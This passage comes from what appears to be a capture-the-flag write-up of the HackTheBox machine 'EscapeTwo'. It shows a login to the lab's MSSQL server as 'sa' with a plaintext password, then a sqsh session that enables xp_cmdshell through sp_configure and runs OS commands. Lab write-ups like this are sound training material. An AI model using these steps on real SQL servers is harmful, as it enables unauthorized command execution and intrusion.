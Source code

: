 We can see that there are now some more credentials, if we pass these credentials to netexec we get a hit for the oscar user. This user does not actually have any more shares or permissions that we could use to further extend our reach on this box.


![escape_info_card](/assets/images/escapetwo/enum.png)
## Getting Admin Access to the MSSql Server
Instead we can use the sa user to login into the MSSql database. It is important to note that we are using a local auth as the sa user does not actually exist on the domain only locally on the DC. Since this account is probably an sql admin we can probably use the `xp_cmdshell` functionality to run commands. Below are the steps needed to activate this function. Note that it did not work first try as the feature was disabled.

```
sqsh -S sequel.htb -U sa -P 'MSSQLP@ssw0rd!' -h
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> xp_cmdshell 'whoami'
2> go
Msg 15281, Level 16, State 1
Server 'DC01\SQLEXPRESS', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system
administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
1> EXECUTE sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
1> RECONFIGURE
2> go
1> EXECUTE sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> RECONFIGURE
2> go
1> xp_cmdshell 'whoami'
2> go
	sequel\sql_svc                                                                                                                                                                                NULL  
```
